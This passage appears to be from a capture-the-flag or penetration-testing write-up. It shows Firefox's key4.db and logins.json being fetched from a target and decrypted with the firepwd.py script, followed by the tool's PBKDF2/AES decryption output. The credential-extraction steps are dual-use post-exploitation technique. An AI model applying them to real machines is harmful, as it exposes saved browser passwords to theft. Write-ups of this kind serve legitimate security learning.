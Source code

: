 ```
get key4.db
get logins.json
```

Now, we can use our script:

```python
pip install -r requirements.txt
pyhton3 firepwd.py
```

We will get this output:

```python
python3 firepwd.py
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
 SEQUENCE {
 SEQUENCE {
 OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
 SEQUENCE {
 SEQUENCE {
 OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
 SEQUENCE {
 OCTETSTRING b'9e0554a19d22a773d0c5497efe7a80641fa25e2e73b2ddf3fbbca61d801c116d'
 INTEGER b'01'
 INTEGER b'20'
 SEQUENCE {
 OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
 }
 }
 }
 SEQUENCE {
 OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
 OCTETSTRING b'b0da1db2992a21a74e7946f23021'
 }
 }
 }
 OCTETSTRING b'a713739460522b20433f7d0b49bfabdb'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
 SEQUENCE {
 OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
 SEQUENCE {
 SEQUENCE {
 OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
 SEQUENCE {
 OCTETSTRING b'f1f75a319f519506d39986e15fe90ade00280879f00ae1e036422f001afc6267'
 INTEGER b'01'
 INTEGER b'20'
 SEQUENCE {
 OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
 }
 }
 }
 SEQUENCE {
 OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
 OCTETSTRING b'dbd2424eabcf4be30180860055c8'
 }
 }
 }
 OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
```